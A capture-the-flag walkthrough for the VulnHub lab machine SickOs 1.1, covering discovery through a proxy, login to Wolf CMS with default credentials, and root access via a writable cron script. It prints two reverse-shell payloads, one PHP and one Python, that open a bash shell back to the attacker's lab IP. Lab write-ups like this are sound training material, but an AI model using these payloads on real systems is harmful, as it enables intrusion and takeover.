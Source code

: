 ```yaml
---
published: true
---
```

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) is a vulnerable machine with an objective to get root and read file /root/a0216ea4d51874464078c618298b1367.txt


To get VM's IP I used nmap
	
![]({{site.baseurl}}/images/sickos1.png)

Output gave me information that VM runs http proxy. I configured Firefox to use it and tried to access VM's localhost. 

![]({{site.baseurl}}/images/sickos2.png)

I succeeded and noticed a simple website. I tried robots.txt and found out that there is Wolf CMS run under /wolfcms

![]({{site.baseurl}}/images/sickos3.png)

I asked google for some information about Wolf CMS and found two directories used for installation process - /install and /docs. I tried both but only /docs was available. In file http://localhost/wolfcms/docs/install.txt I found default credentials, but I didn't know where to put them. I went to google again and searched for URL to admin panel which occurred to be http://localhost/wolfcms/?/admin/login.
Default credentials worked and I got access to administration panel.

![]({{site.baseurl}}/images/sickos4.png)

From this place I was able to upload reverse shell and connect to VM.

	<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/8888 0>&1'");
	?>

After I got access to shell and started investigation what this machines does. I found that there is a cron running python script as root every minute. Fortunately I had permission to overwrite this file.

![]({{site.baseurl}}/images/sickos5.png)

I uploaded reverse shell again, but this time written in python.

	#!/usr/bin/python
	import os
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/9999 0>&1'")

I used existing shell to overwrite script with uploaded one, then I ran netcat on port 9999 and waited one minute until I got root shell.

![]({{site.baseurl}}/images/sickos6.png)

![]({{site.baseurl}}/images/sickos7.png)